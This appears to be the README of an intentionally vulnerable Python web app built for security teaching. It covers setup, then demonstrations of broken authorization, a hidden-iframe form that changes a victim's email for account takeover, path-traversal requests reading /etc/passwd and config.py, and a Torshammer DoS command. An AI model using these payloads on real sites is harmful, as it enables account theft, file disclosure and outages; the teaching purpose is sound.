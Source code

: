 # Setup
- For Linux.
- Download Python 3.6+ version and install.
- Go inside the project directory and open in terminal.
- Follow steps to create a virtual environment in your system (optional) 
    - Run command `pip install virtualenv` to install virtual package manager
    - Make a virtual environment using command `virtualenv env`
    - Now activate your virtual environment: `source env/bin/activate`
    
- Install all project dependencies: `pip install -r requirements.txt` or `pip3 install -r requirements.txt`
- Finally, run application: `python app.py` or  `python3 app.py`

<br>

# Insecure Application

## 1 Broken access control and priviledge escalation due to improper authorization:
1. Attacker finds the admin login page using bruteforce.
Attacker has a list of popular API endpoints.
2. Attacker logs in as a normal user and tries to access admin page. Due to improper authorization, attacker is granted access.


## 2 Session Hijacking 
Creating a hidden form that exploits the API that updates the user profile. Attacker places the form in the blog's content; whenever a user clicks on the button, its email is changed. Later attacker can use the forgot password feature to change the password.

```
<style>
    .hide { position:absolute; top:-1px; left:-1px; width:1px; height:1px; }
</style>
  
<iframe name="hiddenFrame" class="hide"></iframe>
  
<form action="/user/update" method="post" target="hiddenFrame">
    <input type="text" name="email" id="update-email" value="srtkrwt@gmail.com" style="display: none;"><br>
    <button type="submit" id="signup-button">Check out this video!!</button>
</form>
```

## 3 Sensitive data access
All the profile pictures are stored on the server. The webpage sends a POST request to fetch the picture. The attacker exploits this. He can send mallicious file name in the request, like "../../../../../../../ect/passwd" or "../../config.py" 



```
This will return  profile picture of user="user001"

POST http://127.0.0.1:5000/profile_picture
Content-Type: application/json

{
    "picture_name": "user001"
}

###
This will return etc/passwd file 

POST http://127.0.0.1:5000/profile_picture
Content-Type: application/json

{
    "picture_name": "../../../../../../../../../etc/passwd"
}

###
This will return config.py file of the application.

POST http://127.0.0.1:5000/profile_picture
Content-Type: application/json

{
    "picture_name": "../../config.py"
}
```

## 4 Denial Of Service attack
Attacker can DOS the server, this makes the services unavailable the the normal users.
We used Torshammer to perform the DOS attack.<br>
`python2 torshammer.py -t 127.0.0.1 -p 5000` 